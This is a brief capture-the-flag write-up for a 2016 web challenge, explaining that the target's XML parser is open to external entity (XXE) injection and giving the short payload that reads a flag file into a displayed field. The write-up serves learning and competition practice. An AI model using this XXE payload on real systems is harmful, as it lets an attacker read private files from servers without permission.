 # European CyberWeek 2016 Quals - Carnet d'adresses
### Web - 150 pts

Very obvious XEE here. But sadly, we have to guess the flag file to read it. Reading the source code of the index page gives us no informations about where is the flag. No config.php file.

In the end all we have to do is :

```xml
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "flag.txt" >
]>
```

and then add `&xxe;` in a visible field of the example XML given, and the flag will appear.